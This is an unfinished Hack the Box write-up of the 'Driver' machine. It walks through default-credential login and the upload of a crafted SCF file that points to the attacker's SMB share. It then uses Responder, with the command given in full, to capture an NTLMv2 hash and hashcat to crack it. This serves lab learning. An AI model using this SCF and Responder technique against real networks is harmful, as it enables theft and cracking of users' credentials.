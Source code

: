 ```yaml
---
description: Hack the Box Driver machine writeup
---
```


# 🚘 Driver Writeup

![](.gitbook/assets/Driver.PNG)

OK, so I am really excited for this one. Windows machines are not my forte and so I learned a lot from this box. So without further ado lets dive in.



I started this as any good script kiddie would, with a loud nmap scan.

![](.gitbook/assets/scan.PNG)

As you can see from the screenshot, we have three open ports found. With seeing ports 135 and 445 open we can already be almost positive it is an SMB share, and nmap confirms this for us. We also see port 80 open for an HTTP server. That catches my attention as the most likely avenue of approach so lets pay this website a visit.

![](.gitbook/assets/greetings.PNG)

We are immediately greeted by a request for a username and password. Luckily it asks us to provide the password for "admin" so we have the username. Now what could the password be? We could bruteforce it... or we could just try "admin" as the password like I did and it just happened to work, and boom we are in.

![](.gitbook/assets/mainpage.PNG)

We reach the home page of the website once it loads up. From the image and the brief description of the company we get a sense that they do printer driver work.

Exploring the website a little more we find the firmware updates page which actually allows us to upload a file and says they will "review the uploads manually and initiate the testing soon." Perfect maybe we could get them to run a simple msfvenom generated reverse shell. Well to keep you from wasting your time messing around trying to get that to work I will just tell you it doesn't.

So where do we go from here? Well there happens to be a teqnique I learned about from some of the cyber club members on campus where you get the user, on the same network as you, to open a SCF (Shell Command File) while you run a tool called Responder on your end and the user will try to authenticate to your own device with their username and password. To get a little more into the weeds of this, during the authentication process a random 8 byte challange key is sent from the user to your device and the hashed NTLM password is encrypted again with this challange key. Responder captures the NTLMv2 hash from this.

So here what the SCF file should look like:

```
[Shell]
 
Command=2
 
IconFile=\\<Your IP>\share\icon.ico
 
[Taskbar]
 
Command=ToggleDesktop
```

Once we have that crafted lets setup Responder to capture the hash once we upload the file. To do this we use these options:

```
sudo responder -wrf --lm -v -I tun0
```

Please replace the network interface with whatever interface you are using to connect to the HTB platform.

Once you run that you should get output looking like this:

![](.gitbook/assets/responder.PNG)

Now all we have to do is upload the SCF file.

A few seconds after we get some output from Responder, and it looks like the NTLMv2 hash for a user called "tony".

![](.gitbook/assets/ntlm.PNG)

So now lets get this hash cracked. Most HTB hashes are on rockyou so we are going to be using that as our wordlist for hashcat.

For hashcat we are going to be specifying that the hash is 5600, which is hashcat's way of knowing its NTLMv2.

Within a few seconds of running hashcat we get the password. You can see it here circled in red.

![](.gitbook/assets/cracked.PNG)

UNFINISHED
